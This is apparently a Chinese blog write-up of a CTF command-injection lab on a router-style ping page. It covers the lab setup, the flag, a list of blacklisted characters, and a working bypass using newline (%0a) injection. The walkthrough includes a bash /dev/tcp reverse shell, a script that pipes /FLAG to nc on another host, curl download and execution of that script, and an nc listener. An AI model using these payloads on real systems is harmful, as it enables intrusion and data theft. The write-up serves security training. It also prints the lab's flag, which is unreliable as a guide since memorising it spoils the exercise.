 #  【CTFer成长之路】命令执行RCE   
原创 儒道易行  儒道易行   2025-05-14 12:01  
  
# 命令执行RCE  
## 「死亡ping命令」  
  
**「题目描述:」**  
  
路由器管理台经常存在的网络ping测试，开发者常常会禁用大量的恶意字符串，试试看如何绕过呢？  
  
**「docker-compose.yml」**  
```
version: "3.2"

services:
  converter:
    image: registry.cn-hangzhou.aliyuncs.com/n1book/web-command:latest
    ports:
      - 80:80

```  
  
**「启动方式」**  
```
docker-compose up -d

```  
  
**「题目Flag」**  
```
n1book{6fa82809179d7f19c67259aa285a7729}

```  
  
**「Writeup」**  
  
通过测试可以发现是存在一些黑名单过滤的，被拦截时候显示IP包含恶意字符。  
  
利用fuzz的方式能够知道过滤了以下字符:  
```
["$", "{", "}", "`", ";", "&", "|", "(", ")", "\"", "'", "~", "!", "@", "#", "%", "^", "*", "[", "]", "\\", ":", "-", "_"];

```  
  
通过%0a能够注入新的一条命令进行执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVFibibvUMDRMlWlCTvuxYLv10ogYy0l2tSicA3yHtY9uAlmMFZVqicAbtHA/640?wx_fmt=png&from=appmsg "")  
  
由于docker是没有bash、python程序的，并且sh反弹是不行的。  
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1

```  
  
关闭防火墙  
  
新建1.sh文件，内容为：  
```
ls
cat /FLAG | nc 192.168.10.3 8080

```  
  
目前是能通过折中的方式执行任意命令  
  
请求bash文件到tmp目录  
```
127.0.0.1%0acurl 192.168.10.3/1.sh > /tmp/1.sh

```  
  
结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVgmVFxT3SKywhJkZMy9SKqstvZe6dZ9siarkyKYiafRvRMSyaLOKPGNPA/640?wx_fmt=png&from=appmsg "")  
  
给bash加权限  
```
127.0.0.1%0achmod 777 /tmp/1.sh

```  
  
结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVdqMicBOLsh835beSmPj3AXiaBf16kTBlUrfwqsItfia3wWk3a8xR5UM4A/640?wx_fmt=png&from=appmsg "")  
  
执行bash文件  
```
127.0.0.1%0ash /tmp/1.sh

```  
  
结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVNTDvXYicnAGtkDric5CePF2hpEw485F2sDhia662cEI9L6VzYAjHIBZbA/640?wx_fmt=png&from=appmsg "")  
  
192.168.10.3机器上进行监听8080端口  
```
nc -l 8080

```  
  
结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVJYDp7xZojhHI5JUlB4ib7wFI3WERU0ibah4GSaNeY1FDRTkic3bPQx7uw/640?wx_fmt=png&from=appmsg "")  
  
得到flag  
```
n1book{6fa82809179d7f19c67259aa285a7729}

```  
## 「攻防交流群」  
  
![img](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpySibic3KkPVMEFTJyYwJCBUVyqIUZZEzEPug5Z6qUoFmfhVKWgVaMNqXJqjKv230wbYLbxot7l6a5Q/640?wx_fmt=jpeg&from=appmsg "")  
## 「声明」  
  
文笔生疏，措辞浅薄，望各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
